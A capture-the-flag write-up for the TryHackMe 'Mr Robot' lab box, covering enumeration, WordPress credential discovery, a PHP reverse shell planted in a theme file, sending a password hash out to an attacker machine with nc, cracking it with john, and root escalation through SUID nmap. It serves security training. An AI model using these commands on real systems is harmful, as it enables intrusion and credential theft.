




# [Mr Robot CTF - Based on the Mr. Robot show, can you root this box?](https://tryhackme.com/r/room/mrrobot)


## Enumeration

### Nmap - network exploration / port scanning
```
kali@kali:~/CTFs/mrrobotctf$ nmap -sC -sV -p- $TARGETIP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 05:33 EDT
Nmap scan report for <TARGETIP>
Host is up (0.043s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.14 seconds
                                                                                                                             
kali@kali:~/CTFs/mrrobotctf$ 
```

### Inspecting the website



The website is pretty blank and simulates a terminal, giving us multiple options to choose from. None if those seem interesting for us though, except for "join". It takes an email-address as input, so we might end up having to find a specific address to get further information.

### Gobuster
1. DNS
```
gobuster dns -d $TARGETIP -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
```
- no results

2. DIR
```
gobuster dir -u $TARGETIP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --no-error -o gobusterdirscan 
```

results:
```
/images               (Status: 301) [Size: 234] [--> http://<TARGETIP>/images/]                                                        
/blog                 (Status: 301) [Size: 232] [--> http://<TARGETIP>/blog/]                                                          
/rss                  (Status: 301) [Size: 0] [--> http://<TARGETIP>/feed/]                                                            
/sitemap              (Status: 200) [Size: 0]                                                                                           
/login                (Status: 302) [Size: 0] [--> http://<TARGETIP>/wp-login.php]                                                     
/0                    (Status: 301) [Size: 0] [--> http://<TARGETIP>/0/]                                                               
/feed                 (Status: 301) [Size: 0] [--> http://<TARGETIP>/feed/]                                                            
/video                (Status: 301) [Size: 233] [--> http://<TARGETIP>/video/]                                                         
/image                (Status: 301) [Size: 0] [--> http://<TARGETIP>/image/]                                                           
/atom                 (Status: 301) [Size: 0] [--> http://<TARGETIP>/feed/atom/]                                                       
/wp-content           (Status: 301) [Size: 238] [--> http://<TARGETIP>/wp-content/]                                                    
/admin                (Status: 301) [Size: 233] [--> http://<TARGETIP>/admin/]
/audio                (Status: 301) [Size: 233] [--> http://<TARGETIP>/audio/]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2599]
/css                  (Status: 301) [Size: 231] [--> http://<TARGETIP>/css/]
/rss2                 (Status: 301) [Size: 0] [--> http://<TARGETIP>/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 239] [--> http://<TARGETIP>/wp-includes/]
/js                   (Status: 301) [Size: 230] [--> http://<TARGETIP>/js/]
/Image                (Status: 301) [Size: 0] [--> http://<TARGETIP>/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://<TARGETIP>/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://<TARGETIP>/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://<TARGETIP>/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://<TARGETIP>/]
/wp-admin             (Status: 301) [Size: 236] [--> http://<TARGETIP>/wp-admin/]
/0000                 (Status: 301) [Size: 0] [--> http://<TARGETIP>/0000/]
/phpmyadmin           (Status: 403) [Size: 94]
/xmlrpc               (Status: 405) [Size: 42]
```

- runs wordpress
- uses php
- robots-directory

### Inspecting */robots*
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
- the first key can be directly obtained from */key-1-of-3.txt* (XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX)
- fsocity.dic is a file containing language dictionary information -> a pretty long wordlist, might have login information hidden inside

### Inspecting */license*

- pretty blank page, inspecting the content provides us a base64 encrypted string (ZWxsaW90OkVSMjgtMDY1Mgo=)



Decrypting:
```
kali@kali:~/CTFs/mrrobotctf$ echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' > tmp | base64 -d tmp
elliot:ER28-0652
```

## Reverse-Shell
Lets try the credentials we just discovered to log into wordpress (http://TARGETIP/wp-login/). They work.



Assuming we are able upload files or change existing code, it is an ease to get a reverse-shell up and running. We just have to place malicious code and make sure it gets executed. I took the *404.php*-file of the theme *TwentyThirteen*. For the reverse-shell, there are plenty of script-templates out there, a popular one is [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). It provides a pretty comfy way of getting a reverse-shell, since someone has only to change the port and ip-address to make to work.



1. setup a listener `nc -lvnp 9001`
2. execute the edited php file -> http://TARGETIP/wp-includes/themes/TwentyThirteen/404.php

## User-flag
We are now logged in as "daemon". The user-flag will lie within someones home-directory. There is only one user, called **robot**, having a directory in */home*, but as current user, we cannot access the flag, due to lack of permissions. Apparently, to our favor, robot kept his password as md5-hash.
```
daemon@linux:/home/robot$ ls -lisa
ls -lisa
total 16
130326 4 drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
 22175 4 drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
136108 4 -r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
136109 4 -rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ 
```
```
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 
```

### Cracking the password for user **robot**

1. get file on the attacker-machine

```
kali@kali:~/CTFs/mrrobotctf/robot_user$ nc -lvnp 5555 > pw.hash  
```
```
daemon@linux:/home/robot$ nc -w 3 <ATTACKERIP> 5555 < password.raw-md5
```

2. cracking using `john`

> Remove "robot" from the hash-file, before trying to crack

```
kali@kali:~/CTFs/mrrobotctf/robot_user$ john -wordlist:/usr/share/wordlists/rockyou.txt pw.hash --format=Raw-MD5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=6
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)     
1g 0:00:00:00 DONE (2024-05-26 07:27) 16.66g/s 678400p/s 678400c/s 678400C/s bonjour1..teletubbies
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                        
kali@kali:~/CTFs/mrrobotctf/robot_user$ 
```

- credentials: robot:abcdefghijklmnopqrstuvwxyz

### Catch the user-flag

```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
robot@linux:~$ 
```

## Root-flag

```
robot@linux:/$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
robot@linux:/$ 
```
- no permission for sudo

```
robot@linux:/usr/local/bin$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:/usr/local/bin$ 
```
- searching for SUID-bit -> */usr/local/bin/nmap* looks promising

### Using `nmap` to promote to root
- [GTFObins](https://gtfobins.github.io/gtfobins/nmap/)


```
robot@linux:/usr/local/bin$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh      
!sh
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
#
```
